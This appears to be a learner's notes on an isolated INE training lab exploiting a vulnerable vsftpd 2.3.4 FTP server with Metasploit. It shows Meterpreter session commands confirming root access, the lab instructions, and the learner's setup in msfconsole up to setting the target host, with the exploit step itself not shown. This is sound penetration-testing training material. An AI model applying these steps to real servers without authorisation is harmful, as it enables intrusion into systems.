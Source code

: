 We have a Meterpreter session opened up.

```
sessions
```

`getuid`: get the user id, which tells us we are currently the root user, because the `uid`(user id) is 0 is in reference to the root user, so we have root privileges. 

```
sessions 2
meterpreter > sysinfo
```

That is how to gain access or how to exploit a vulnerable FTP server. And in this case, we've also explored a post-exploitation module that can allow us to upgrade our command shell to a Meterpreter session.

# Vulnerable FTP Server
## Overview
The target server as described below is running a vulnerable FTP server. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a Meterpreter shell on the target!

Instructions: 

* This lab is dedicated to you! No other users are on this network :)
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
* The target server should be located at the IP address 192.X.Y.3.
* Do not attack the gateway located at IP address 192.X.Y.1
* postgresql is not running by default so Metasploit may give you an error about this when starting

## Solutions
The solution for this lab can be found in the following manual: https://assets.ine.com/labs/ad-manuals/walkthrough-179.pdf

## 我自己的思路
```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.15.82.2  netmask 255.255.255.0  broadcast 192.15.82.255
        ether 02:42:c0:0f:52:02  txqueuelen 0  (Ethernet)
```

Target IP Address: 192.15.82.3

```
root@attackdefense:~# service postgresql start
[ ok ] Starting PostgreSQL 11 database server: main.
root@attackdefense:~# msfconsole -q
msf5 > workspace -a vsftpd2.3.4
[*] Added workspace: vsftpd2.3.4
[*] Workspace: vsftpd2.3.4
msf5 > workspace
  default
* vsftpd2.3.4
msf5 > setg RHOSTS 192.15.82.3
RHOSTS => 192.15.82.3
```
